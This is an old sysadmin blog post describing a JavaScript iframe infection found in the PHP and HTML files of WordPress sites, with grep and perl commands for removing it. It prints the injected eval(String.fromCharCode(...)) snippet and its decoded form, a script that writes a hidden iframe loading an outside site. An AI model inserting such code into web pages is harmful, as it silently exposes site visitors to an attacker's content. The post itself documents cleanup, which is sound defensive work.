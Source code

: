 ```yaml
---
author: gerold-mercadero
date: '2009-03-22 12:25:15'
layout: post
slug: heurtrojanscriptiframe
status: publish
title: HEUR:Trojan.Script.Iframe
wordpress_id: '432'
categories:
- News
- Security
tags:
- virus
---
```


One of my friend asked for help about virus appearing on his sites (mostly WordPress sites).  I checked it out and my Kaspersky Internet Security blocked the pages from loading, so i downloaded the files manually and scanned html with Kaspersky to determine affected files.


![virus2](http://linuxsysadminblog.com/images/2009/03/virus2-220x300.gif)



I noticed that the affected files were PHP and HTML only and if you compare the code of the original WordPress files with the infected one you will see the difference.  Below are sample added codes/virus:



HTML files: `<script type="text/javascript">eval(String.fromCharCode(118,97...50,55))</script>`
PHP files:  `<?php echo '<script type="text/javascript">eval(String.fromCharCode(118,97...50,55))</script>'; ?>`

**What it does**
I'm not a virus expert and I'm curios on what this portion of code does so i looked at it.  In our case the resulting text add this portion of code to the html or php files:

`var fggge3="si";
var w345="pl";
var re6="ank.";
var rr="com";
var a="if";
var s="tt";
document.write('<'+a+'rame src="h'+s+'p://'+fggge3+''+w345+''+re6+''+rr+'/'+'qqp/'+''+''+'" style="d'+'isplay:n'+'one">');
var t=00001217
`

and you can see it tries to load an iframe:

`<iframe src=http://siplank.com/qqp/ style=display:none>`

**Virus Removal**
You can remove the virus by just deleting the code (sample above) on the affected files.  If you need to cleanup hundred of infected files (in our case more than 800) you can do the following:

- Get the list of infected files.  You can use grep to search for them
`grep -Z -R "eval(String.fromCharCode(118,97,114" /path/to/site/* >> affected_file_list.txt`
- Delete the codes by using perl/sed commands.  Repeat the commands for every files.
`perl -pi -e 's/\<script type="text\/javascript"\>eval\(String.fromCharCode\(118,97,114...51,51\)\)\<\/script\>//'  /path/to/affected/file.htm
perl -pi -e "s/\<\?php echo ''; \?\>\<\?php echo ''; \?\>//"  /path/to/affected/file.php`

Or create a bash/shell script to do the cleanup at once:
`
while read line
do
perl -pi -e 's/\<script type="text\/javascript"\>eval\(String.fromCharCode\(118,97,114...51,51\)\)\<\/script\>//'  $line
perl -pi -e "s/\<\?php echo ''; \?\>\<\?php echo ''; \?\>//"   $line
done < affected_file_list.txt
`

That's all.

I don't know how the attacker gained access to the files and inserted the codes because the file permissions are ok - maybe they gain ftp access.
